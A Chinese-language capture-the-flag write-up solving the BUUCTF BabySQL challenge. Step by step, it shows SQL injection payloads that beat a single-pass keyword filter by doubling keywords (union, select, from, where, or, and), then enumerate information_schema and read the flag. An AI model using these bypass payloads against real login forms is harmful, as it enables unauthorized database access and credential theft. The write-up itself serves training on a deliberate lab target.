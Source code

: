 # T8 BabySQL

> 题目：BUUCTF [极客大挑战 2019]BabySQL

__0x00 审题__

> 之前说遇到了连续剧，没想到昨天那个后面还有续集，一块做了吧

他上面说已经做了严格的审查，我们再也登不进去了，弱密码不行，直接万能密码，发现报错

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1=1#'' at line 1
```

* 注意这里明明我用的是' or 1=1#，但是or不见了，考虑被过滤掉了

__0x01 解题__

1. 小tip:双写or,可以试试他是不是只过滤一次

```
?username=admin&password=' oorr 1=1#
```

过了开心：

```
Hello admin！
Your password is 'b805254663161a50d4ec808478ab5d6b'
```

2. 直接猜测和上题一致

检查用户名处有无注点：“?username=1' order by 1%23&password=123”————发现奇怪的变成了“der 1#' and password='123''”不会都过滤了吧

```
?username=' oorrder bbyy 4%23&password=12311 
```

回显:

```
Unknown column '4' in 'order clause'
```

> 终于差不多了，感觉之后就和上一题一模一样了

> 下面回顾

3. 判断字段

直接输入，果然删的啥都不剩了：'1,2,3#' and password='123''

```
?username=admin&password=12311' ununionion seselectlect 1,2,3%23
```

> 发现也不需要第一个被过滤的1

简单粗暴得解:
```
Hello 2！
Your password is '3'
```

4. 2,3有回显，查表

直接写很显然不对，观察什么被再次过滤，发现是from information_schema，双写过滤

```
' ununionion selselectect 1,2,group_concat(schema_name)  frfromom  (infoorrmation_schema.schemata) %23
```

回显:

```
Hello 2！
Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'
```

打眼ctf，直接查字段

5. ctf中字段

where被过滤直接双写得：

```
' ununionion selselectect 1,2,group_concat(table_name)  frfromom  (infoorrmation_schema.tables) whwhereere table_schema='ctf' %23
```

re:

```
Hello 2！
Your password is 'Flag'
```

_字段里有好东西_

6. 查里面内容

and又被绕过了，这绕过的也太多了吧

```
' ununionion selselectect 1,2,group_concat(column_name)  frfromom  (infoorrmation_schema.columns) whwhereere table_schema='ctf' aandnd table_name='Flag' %23
```

回显:

```
Hello 2！
Your password is 'flag'
```

> 为啥还不行，好慢（

7. 找数据

```
' ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag) %23
```
得到flag

__0x02 总结__

1. 避免被过滤的方法，可以双写，只过滤一次
2. 再次熟悉注入过程
